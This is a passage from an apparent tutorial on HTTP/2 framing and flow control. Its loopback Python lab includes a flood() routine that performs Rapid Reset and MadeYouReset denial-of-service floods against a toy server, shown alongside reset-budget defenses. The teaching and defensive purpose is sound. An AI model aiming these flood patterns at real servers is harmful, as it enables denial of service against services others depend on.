            if f is None: got.append(("EOF",)); break
            got.append(f)
            if show: self.show("<", *f)
            if f[0] == SETTINGS and not f[1] & ACK: self.s.sendall(frame(SETTINGS, ACK, 0))
        return got

def body_bytes(frames, sid=None):
    return sum(len(f[3]) for f in frames if f[0] == DATA and (sid is None or f[2] == sid))

print("== 1. Preface, SETTINGS and one request ==")
srv = Server(max_streams=100)
c = Client(srv.addr)
c.send(HEADERS, END_HEADERS | END_STREAM, 1, req_headers("/"))
c.recv_all()

print("\n== 2a. Stream window: INITIAL_WINDOW_SIZE=16384, 50000-byte body ==")
c = Client(srv.addr, struct.pack("!HI", 4, 16384), log=False)
c.recv_all(show=False)
c.log = True; c.send(HEADERS, END_HEADERS | END_STREAM, 1, req_headers("/half")); c.log = False
got = c.recv_all(show=False)
print(f"  received {body_bytes(got)} body bytes, then the server stalls (stream window empty)")
c.log = True; c.send(WINUPD, 0, 1, struct.pack("!I", 40000)); c.log = False
got = c.recv_all(show=False)
print(f"  after WINDOW_UPDATE(stream 1, +40000): {body_bytes(got)} more bytes, END_STREAM={any(f[0]==DATA and f[1]&1 for f in got)}")

print("\n== 2b. Connection window: stream window 1 MiB, 100000-byte body ==")
c = Client(srv.addr, struct.pack("!HI", 4, 1 << 20), log=False)
c.recv_all(show=False)
c.log = True; c.send(HEADERS, END_HEADERS | END_STREAM, 1, req_headers("/big")); c.log = False
got = c.recv_all(show=False)
print(f"  received {body_bytes(got)} body bytes: the connection window (65535, only raised on stream 0) is empty")
c.log = True; c.send(WINUPD, 0, 1, struct.pack("!I", 100000)); c.log = False
got = c.recv_all(show=False); print(f"  after WINDOW_UPDATE(stream 1): {body_bytes(got)} more bytes")
c.log = True; c.send(WINUPD, 0, 0, struct.pack("!I", 100000)); c.log = False
got = c.recv_all(show=False)
print(f"  after WINDOW_UPDATE(stream 0): {body_bytes(got)} more bytes, END_STREAM={any(f[0]==DATA and f[1]&1 for f in got)}")

print("\n== 3. Stream identifier rules: an even (server-reserved) id ==")
c = Client(srv.addr, log=False); c.recv_all(show=False); c.log = True
c.send(HEADERS, END_HEADERS | END_STREAM, 2, req_headers("/"))
c.recv_all()

print("\n== 4. MAX_CONCURRENT_STREAMS=4, six requests at once ==")
srv4 = Server(max_streams=4, work=0.2)
c = Client(srv4.addr, log=False); c.recv_all(show=False)
for sid in (1, 3, 5, 7, 9, 11):
    c.s.sendall(frame(HEADERS, END_HEADERS | END_STREAM, sid, req_headers("/")))
got = c.recv_all(quiet=0.6, show=False)
for f in got:
    if f[0] in (RST, HEADERS) or (f[0] == DATA and f[1] & 1): print("  <", describe(*f))
print("  server stats:", srv4.stats)

def flood(server, n, how):
    c = Client(server.addr, log=False); c.recv_all(show=False)
    t0 = time.time(); sent = 0
    for i in range(n):
        sid = 2 * i + 1
        try:
            c.s.sendall(frame(HEADERS, END_HEADERS | END_STREAM, sid, req_headers("/")))
            if how == "rst":
                c.s.sendall(frame(RST, 0, sid, struct.pack("!I", 8)))      # CANCEL
            else:
                c.s.sendall(frame(WINUPD, 0, sid, struct.pack("!I", 0)))   # provoke a server reset
            sent += 1
        except (BrokenPipeError, ConnectionResetError):
            break
    got = c.recv_all(quiet=0.4, show=False)
    ga = [describe(*f) for f in got if f and f[0] == GOAWAY]
    time.sleep(0.1)
    return sent, time.time() - t0, ga, server.stats

print("\n== 5. Rapid Reset: HEADERS then RST_STREAM, 1000 times ==")
for label, srvx in (("no reset budget", Server(max_streams=100)),
                    ("budget 100 client resets", Server(max_streams=100, reset_budget=100))):
    sent, dt, ga, stx = flood(srvx, 1000, "rst")
    print(f"  {label}: client sent {sent} pairs in {dt*1000:.0f} ms; GOAWAY={ga or 'none'}")
    print(f"    started={stx['started']} cancelled={stx['cancelled']} completed={stx['completed']} max_open={stx['max_open']} client_rst={stx['client_rst']}")

print("\n== 6. Server-provoked resets (WINDOW_UPDATE increment 0), 1000 times ==")
for label, srvx in (("budget counts client resets only", Server(max_streams=100, reset_budget=100)),
                    ("budget counts all resets", Server(max_streams=100, reset_budget=100, count_server_resets=True))):
    sent, dt, ga, stx = flood(srvx, 1000, "wu0")
    print(f"  {label}: sent {sent}; GOAWAY={ga or 'none'}")
    print(f"    started={stx['started']} server_rst={stx['server_rst']} client_rst={stx['client_rst']} work orphaned by reset={stx.get('orphaned', 0)}")
```
```{.bash filename="run.sh"}
#!/bin/sh
# loopback only, no root
python3 h2lab.py
```
Run the lab from the directory containing both files with `sh run.sh`. It only uses loopback TCP sockets, so it needs no root and no network namespace.

### Execution output

```text
== 1. Preface, SETTINGS and one request ==
  > SETTINGS      flags=0x00 stream=0   len=0     
  > HEADERS       flags=0x05 stream=1   len=27    END_STREAM
  < SETTINGS      flags=0x00 stream=0   len=6     MAX_CONCURRENT_STREAMS=100
  < SETTINGS      flags=0x01 stream=0   len=0     ACK
  < HEADERS       flags=0x04 stream=1   len=1    
  < DATA          flags=0x01 stream=1   len=13    END_STREAM

== 2a. Stream window: INITIAL_WINDOW_SIZE=16384, 50000-byte body ==
  > HEADERS       flags=0x05 stream=1   len=31    END_STREAM
  received 16384 body bytes, then the server stalls (stream window empty)
  > WINDOW_UPDATE flags=0x00 stream=1   len=4     increment=40000
  after WINDOW_UPDATE(stream 1, +40000): 33616 more bytes, END_STREAM=True

== 2b. Connection window: stream window 1 MiB, 100000-byte body ==
  > HEADERS       flags=0x05 stream=1   len=30    END_STREAM
  received 65535 body bytes: the connection window (65535, only raised on stream 0) is empty
  > WINDOW_UPDATE flags=0x00 stream=1   len=4     increment=100000
  after WINDOW_UPDATE(stream 1): 0 more bytes
  > WINDOW_UPDATE flags=0x00 stream=0   len=4     increment=100000
  after WINDOW_UPDATE(stream 0): 34465 more bytes, END_STREAM=True

== 3. Stream identifier rules: an even (server-reserved) id ==
  > HEADERS       flags=0x05 stream=2   len=27    END_STREAM
  < GOAWAY        flags=0x00 stream=0   len=8     last_stream=0 PROTOCOL_ERROR

== 4. MAX_CONCURRENT_STREAMS=4, six requests at once ==
  < RST_STREAM    flags=0x00 stream=9   len=4     REFUSED_STREAM
  < RST_STREAM    flags=0x00 stream=11  len=4     REFUSED_STREAM
  < HEADERS       flags=0x04 stream=1   len=1    
  < DATA          flags=0x01 stream=1   len=13    END_STREAM
  < HEADERS       flags=0x04 stream=3   len=1    
  < DATA          flags=0x01 stream=3   len=13    END_STREAM
  < HEADERS       flags=0x04 stream=5   len=1    
  < DATA          flags=0x01 stream=5   len=13    END_STREAM
  < HEADERS       flags=0x04 stream=7   len=1    
  < DATA          flags=0x01 stream=7   len=13    END_STREAM
  server stats: {'started': 4, 'completed': 4, 'cancelled': 0, 'refused': 2, 'client_rst': 0, 'server_rst': 2, 'max_open': 4, 'goaway': None}

== 5. Rapid Reset: HEADERS then RST_STREAM, 1000 times ==
  no reset budget: client sent 1000 pairs in 515 ms; GOAWAY=none
    started=1000 cancelled=1000 completed=0 max_open=1 client_rst=1000
  budget 100 client resets: client sent 1000 pairs in 105 ms; GOAWAY=['GOAWAY        flags=0x00 stream=0   len=8     last_stream=201 ENHANCE_YOUR_CALM']
    started=101 cancelled=101 completed=0 max_open=1 client_rst=101

== 6. Server-provoked resets (WINDOW_UPDATE increment 0), 1000 times ==
  budget counts client resets only: sent 1000; GOAWAY=none
    started=1000 server_rst=1000 client_rst=0 work orphaned by reset=1000
  budget counts all resets: sent 1000; GOAWAY=['GOAWAY        flags=0x00 stream=0   len=8     last_stream=201 ENHANCE_YOUR_CALM']
    started=101 server_rst=101 client_rst=0 work orphaned by reset=101
```
## Reading the output

### 1. Preface, SETTINGS and one request

The client connects to `127.0.0.1`, sends the 24-octet `h2c` preface followed by an empty `SETTINGS` frame (`stream=0`, `len=0`, `flags=0x00`), and sends a `GET /` request in a single `HEADERS` frame on `stream=1` (`len=27`, `flags=0x05`, which combines `END_STREAM` `0x01` and `END_HEADERS` `0x04`).

The server replies with four frames:

1. `SETTINGS` on `stream=0` (`len=6`): `6` octets encode one setting—`MAX_CONCURRENT_STREAMS` (`0x0003`) set to `100` (`0x00000064`).
2. `SETTINGS` `ACK` on `stream=0` (`flags=0x01`, `len=0`): acknowledges the client's `SETTINGS` frame.
3. `HEADERS` on `stream=1` (`flags=0x04` = `END_HEADERS`, `len=1`): a 1-byte header block (`0x88`), which is the HPACK static-table indexed representation of `:status: 200`.
4. `DATA` on `stream=1` (`flags=0x01` = `END_STREAM`, `len=13`): the 13-byte body, completing the stream.

### 2a. Stream window: INITIAL_WINDOW_SIZE=16384, 50000-byte body

Here the client advertises `SETTINGS_INITIAL_WINDOW_SIZE=16384` and requests `/half`, which returns a `50000`-byte body (`HEADERS` `len=31`, `flags=0x05`). Because the per-stream window starts at `16384` and the connection window starts at `65535`, the server sends `16384` bytes and stalls when the stream window reaches `0`.

The client then sends `WINDOW_UPDATE` on `stream=1` with `increment=40000`. That raises the stream window to `40000`, which is smaller than the remaining connection window (`65535 - 16384 = 49151`), so the server immediately transmits the remaining `33616` bytes (`16384 + 33616 = 50000`) with `END_STREAM=True`.

### 2b. Connection window: stream window 1 MiB, 100000-byte body

Here the client advertises `SETTINGS_INITIAL_WINDOW_SIZE=1048576` (1 MiB) and requests `/big`, which returns `100000` bytes (`HEADERS` `len=30`). Even though the stream window is 1 MiB, the server stops after sending `65535` bytes because the connection-level window always starts at `65535` and is unaffected by `INITIAL_WINDOW_SIZE`.

The client first sends `WINDOW_UPDATE` on `stream=1` (`increment=100000`), which yields `0` more bytes because the connection window on stream `0` is still `0`. Once the client sends `WINDOW_UPDATE` on `stream=0` (`increment=100000`), the server sends the remaining `34465` bytes (`65535 + 34465 = 100000`) with `END_STREAM=True`.

### 3. Stream identifier rules: an even (server-reserved) id

The client sends `HEADERS` on `stream=2` (`len=27`, `END_STREAM`). Because even stream IDs are reserved for server-initiated streams, the server treats this as a connection error, immediately emits `GOAWAY` on `stream=0` (`len=8`, `last_stream=0`, `PROTOCOL_ERROR`), and closes the connection.

### 4. MAX_CONCURRENT_STREAMS=4, six requests at once

The server is configured with `MAX_CONCURRENT_STREAMS=4` and a `0.2` s simulated backend timer. The client pipelines six requests (`stream=1, 3, 5, 7, 9, 11`) back-to-back.

The first four streams (`1, 3, 5, 7`) are accepted and complete after the 200 ms timer, each returning `HEADERS` (`len=1`) and `DATA` (`len=13`, `END_STREAM`). Streams `9` and `11` would push open streams above `4`, so the server immediately rejects each with `RST_STREAM` (`len=4`, `REFUSED_STREAM`). The server stats confirm the accounting: `started=4`, `completed=4`, `cancelled=0`, `refused=2`, `client_rst=0`, `server_rst=2`, `max_open=4`, `goaway=None`.

### 5. Rapid Reset: HEADERS then RST_STREAM, 1000 times

The client sends `1000` pairs of `HEADERS` followed immediately by `RST_STREAM` (`CANCEL`) against a server with `MAX_CONCURRENT_STREAMS=100`.

- **No reset budget**: The client sends all `1000` pairs in `515 ms` and sees `GOAWAY=none`. The server starts and cancels all `1000` streams (`started=1000`, `cancelled=1000`, `completed=0`, `client_rst=1000`). Crucially, `max_open=1`: `MAX_CONCURRENT_STREAMS=100` never triggers because each stream is closed by `RST_STREAM` before the next stream opens.
- **Budget 100 client resets**: The server enforces `reset_budget=100` (`resets > 100`). On the 101st `RST_STREAM` (stream `201`, since `2 * 101 - 1 = 201`), the server sends `GOAWAY` with `last_stream=201` and `ENHANCE_YOUR_CALM`, and closes the connection. Notice that the client still reports writing `1000` pairs in `105 ms`—the client pushed the remaining pairs into its local TCP socket send buffer before reading `GOAWAY` and seeing the server's close—while the server stopped processing at `started=101`, `cancelled=101`, `completed=0`, `max_open=1`, `client_rst=101`.

In this lab, the simulated backend work is a 50 ms Python timer (`time.time() + 0.05`) that simply expires without cost once the stream is popped. In a real reverse proxy or application server, the upstream TCP request, database query, or template render initiated when `HEADERS` arrived often keeps running after `RST_STREAM` cancels the frontend stream, which is the resource cost the attacker is trying to amplify.

### 6. Server-provoked resets (WINDOW_UPDATE increment 0), 1000 times

The client sends `1000` pairs of `HEADERS` followed immediately by `WINDOW_UPDATE` with `increment=0` on the same stream, provoking the server to send `RST_STREAM` (`PROTOCOL_ERROR`).

- **Budget counts client resets only**: Even with `reset_budget=100`, the client sends all `1000` pairs and sees `GOAWAY=none`. The server starts all `1000` streams, emits `1000` server resets (`server_rst=1000`), records `client_rst=0`, and leaves `work orphaned by reset=1000`. Because the budget only checks `client_rst`, it never fires.
- **Budget counts all resets**: When the server counts `client_rst + server_rst`, the 101st provoked reset triggers `GOAWAY` (`last_stream=201`, `ENHANCE_YOUR_CALM`). The server stops at `started=101`, `server_rst=101`, `client_rst=0`, `work orphaned by reset=101`, while the client again wrote all `1000` pairs into its socket buffer before noticing the close.

## In production

In production, you inspect live HTTP/2 framing with `nghttp2` tools, `curl`, and Wireshark, and tune concurrency and window limits in your reverse proxy.

To trace exact frames, `SETTINGS`, and flow-control updates against a live endpoint using `nghttp` from the `nghttp2` package (not run here):

```bash
# (not run here)
nghttp -nv http://host/
```

To generate controlled concurrent HTTP/2 load and observe `MAX_CONCURRENT_STREAMS` and throughput behavior with `h2load` (not run here):

```bash
# (not run here)
h2load -n 1000 -c 10 -m 100 https://host/
```

To test a cleartext `h2c` prior-knowledge endpoint directly with `curl` (not run here):

```bash
# (not run here)
curl --http2-prior-knowledge -v http://host/
```

When debugging TLS-encrypted `h2` traffic in Wireshark or `tshark`, export session keys from the client using `SSLKEYLOGFILE` and apply the `http2` display filter (not run here):

```bash
# (not run here)
SSLKEYLOGFILE=/tmp/sslkeys.log curl --http2 -s https://host/ > /dev/null
tshark -r capture.pcapng -o tls.keylog_file:/tmp/sslkeys.log -Y "http2"
```

When tuning reverse proxies, verify the exact directive names and version-specific behavior in your installed release's documentation:

- **nginx**: Check `http2_max_concurrent_streams` (and HTTP/2 keepalive/timeout directives) in your nginx version's `ngx_http_v2_module` documentation.
- **Envoy**: Under `http2_protocol_options`, check `max_concurrent_streams`, `initial_stream_window_size`, and `initial_connection_window_size` in your Envoy version's API reference, alongside any stream-error or reset-flood protection settings introduced in your release.

## Gotchas

- **Raising `INITIAL_WINDOW_SIZE` does not raise the connection window.** Setting `SETTINGS_INITIAL_WINDOW_SIZE` to 1 MiB or 16 MiB only affects per-stream windows; the connection window still starts at `65535` bytes until the peer sends `WINDOW_UPDATE` on stream `0`.
- **Flow control only throttles `DATA`, never `HEADERS` or control frames.** A stalled `DATA` window will not stop a peer from flooding `PING`, `SETTINGS`, `RST_STREAM`, or `HEADERS` frames on the same socket.
- **Client-side socket buffers hide `GOAWAY` timing.** A flood client can write hundreds of frame pairs into the kernel TCP send buffer before the server's `GOAWAY` and FIN/RST arrive back across the socket, as seen in sections 5 and 6 where the client wrote `1000` pairs even though the server stopped at `101`.
- **Closing a socket immediately after `GOAWAY` can trigger TCP `RST`.** If a server writes `GOAWAY` and calls `close()` while unread client frames sit in the kernel receive queue, the kernel sends a TCP `RST` that can wipe out the `GOAWAY` frame on the client before it is read. Half-close with `shutdown(SHUT_WR)` and drain incoming bytes briefly, as `h2lab.py` does, so the client actually receives `ENHANCE_YOUR_CALM`.
- **Counting only inbound `RST_STREAM` frames misses MadeYouReset.** Any reset-flood detector that only increments on received `RST_STREAM` frames has a zero-count blind spot when a client triggers server-side `RST_STREAM` via `WINDOW_UPDATE(0)`, bad `PRIORITY` lengths, or post-`END_STREAM` frames.
- **Backend work outlives `RST_STREAM`.** Cancelling a frontend HTTP/2 stream does not automatically abort an in-flight upstream HTTP/1.1 request, database query, or worker thread unless the proxy explicitly propagates cancellation and the backend honors it.
- **`REFUSED_STREAM` vs `PROTOCOL_ERROR` changes client retry behavior.** Returning `REFUSED_STREAM` (`0x7`) tells compliant clients that no processing occurred and the request can be retried; returning `PROTOCOL_ERROR` (`0x1`) treats it as a fault.
- **CVE-2019-9514 vs CVE-2023-44487 vs CVE-2025-8671 target different bottlenecks.** Reset Flood (2019) aimed to overflow outbound `RST_STREAM` queues in the server; Rapid Reset (2023) and MadeYouReset (2025) aim to burn backend/upstream capacity while staying under `MAX_CONCURRENT_STREAMS`.

## Exercises

1. Modify `h2lab.py` to send a `PRIORITY` frame (`type=0x2`) with a 4-octet payload instead of `WINDOW_UPDATE(0)` in section 6, and verify that a strict RFC 9113 handler treats it as a stream `FRAME_SIZE_ERROR` (`0x6`) that still triggers the server-reset budget.
2. Modify section 2b of `h2lab.py` to send a `WINDOW_UPDATE` on `stream=1` with increment `2147483647` (`2^31 - 1`) when `INITIAL_WINDOW_SIZE` is already `1048576`, and implement the `FLOW_CONTROL_ERROR` (`0x3`) check in the server.
3. Add a `PING` frame (`type=0x6`) with an 8-octet payload in section 1 and verify that the server returns `PING` with `ACK` (`0x1`) and the identical 8-octet payload even if `DATA` flow control on stream `1` is stalled at `0`.
4. Extend the server in `h2lab.py` to track a sliding time window (for example, resets per second) rather than a flat connection-lifetime count, and test a long-lived connection sending 50 legitimate requests followed by 101 rapid resets.
5. In `h2lab.py`, remove the `shutdown(SHUT_WR)` drain loop at the end of `Server.conn` and observe whether the client occasionally receives `ConnectionResetError` instead of reading the `GOAWAY` frame under rapid flooding.

## Verification

- **Executed in this chapter**: `sh run.sh` running `h2lab.py` on Linux 6.12 with Python 3.13.5 over loopback (`127.0.0.1`), without root privileges. All sections (`1`, `2a`, `2b`, `3`, `4`, `5`, `6`) produced the recorded frame traces, byte counts, `GOAWAY` frames, and server statistics.
- **Not executed in this chapter**: Production CLI commands (`nghttp`, `h2load`, `curl`, `tshark`) and proxy configuration snippets (`nginx`, `Envoy`) in the "In production" section were not run against live external hosts and are marked `(not run here)`.

## Sources

- RFC 9113: HTTP/2 (obsoletes RFC 7540) — [https://www.rfc-editor.org/rfc/rfc9113](https://www.rfc-editor.org/rfc/rfc9113)
- RFC 7541: HPACK: Header Compression for HTTP/2 — [https://www.rfc-editor.org/rfc/rfc7541](https://www.rfc-editor.org/rfc/rfc7541)
- RFC 9218: Extensible Prioritization Scheme for HTTP — [https://www.rfc-editor.org/rfc/rfc9218](https://www.rfc-editor.org/rfc/rfc9218)
- Netflix Security Advisory: HTTP/2 Denial of Service Advisories (CVE-2019-9511 through CVE-2019-9518) — [https://github.com/Netflix/security-bulletins/blob/master/advisories/third-party/2019-002.md](https://github.com/Netflix/security-bulletins/blob/master/advisories/third-party/2019-002.md)
- CVE-2023-44487 (HTTP/2 Rapid Reset) in NVD — [https://nvd.nist.gov/vuln/detail/CVE-2023-44487](https://nvd.nist.gov/vuln/detail/CVE-2023-44487)
- CISA Known Exploited Vulnerabilities Catalog (CVE-2023-44487) — [https://www.cisa.gov/known-exploited-vulnerabilities-catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- MadeYouReset: Turning HTTP/2 Server-Sent Resets Against Themselves (CVE-2025-8671) — [https://www.cve.org/CVERecord?id=CVE-2025-8671](https://www.cve.org/CVERecord?id=CVE-2025-8671)
- `shutdown(2)` Linux manual page — [https://man7.org/linux/man-pages/man2/shutdown.2.html](https://man7.org/linux/man-pages/man2/shutdown.2.html)
